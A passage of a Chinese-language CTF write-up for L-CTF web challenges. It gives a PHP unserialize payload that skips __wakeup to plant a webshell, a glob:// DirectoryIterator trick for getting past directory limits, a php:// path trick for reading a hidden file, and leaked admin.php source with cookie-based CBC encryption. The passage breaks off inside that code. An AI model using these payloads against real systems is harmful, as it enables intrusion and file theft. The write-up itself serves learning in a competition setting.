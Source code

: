 ```

if($match){
	exit("据说这种key加也行<br/>");
}
$Obj=unserialize($key);

?>

```


payload：
```
http://web.l-ctf.com:10197/ctf/upload.php?key=O:%2b3:"key":3:{S:8:"filename";s:2:"ss";s:8:"filedata";s:19:"aaasdfasdfasdfasaaa";}
```

wakeup方法被跳过了，那么写webshell进去

但是进去我们又遇到了问题，web目录下我们没找到flag，怎么办呢

绕opendir的限制！！

```
321=$f=[];$d=new DirectoryIterator("glob:///var/www/flag/*");var_dump($d);
```

## 苏打学姐的网站  ##

苏打学姐很文艺， 
搞了一个图片小站，但是智商经常不上线。不知是为了方便咋的、经常留一些奇怪的东西下来，来吧，砸了他这个图片站的场子！！ 
http://web.l-ctf.com:14144/ 


因为题不是我做的，所以我就按照队友文档中的思路来写了

首先我们发现
```
http://web.l-ctf.com:14144/img.php?id=file/5253d1eb29230.jpg 应该是路径解析问题，存在http://web.l-ctf.com:14144/file/tips.txt
```

但是怎么都读不到，后来发现虽然不知道后台怎么做的处理，但是可以双管道得到文件内容，我猜有可能是后台坐了前缀检查，payload

```
http://shimakaze.labs/lctf/parse.php?id=php://resource=file/5253d1eb29230.jpg/resource=file/tips.txt

```

读了tips.txt，得到

admin.php.txt

```
Admin.php.txt

<?php
error_reporting(0);
$Key = "xxxxxxxxxxxxxxxxx";
$iv = "xxxxxxxxxxxxxxxx";
$v = "2016niandiqijiequanguowangluoanquandasai0123456789abcdef-->xdctfxdnum=2015auid=4;xdctfxdctf";
$en_Result = mcrypt_encrypt(MCRYPT_RIJNDAEL_128,$Key, $v, MCRYPT_MODE_CBC, $iv);
$enc = base64_encode($en_Result);
$en_Data = base64_decode($_COOKIE[user]);
$de_Result = mcrypt_decrypt(MCRYPT_RIJNDAEL_128,$Key, $en_Data, MCRYPT_MODE_CBC, $iv);

$b = array();
$b = isset($_COOKIE[user])?$de_Result:$enc;
$num1 = substr($b,strpos($b,"uid")+4,1);
$num2 = substr($b,strpos($b,"num")+4,4);
```
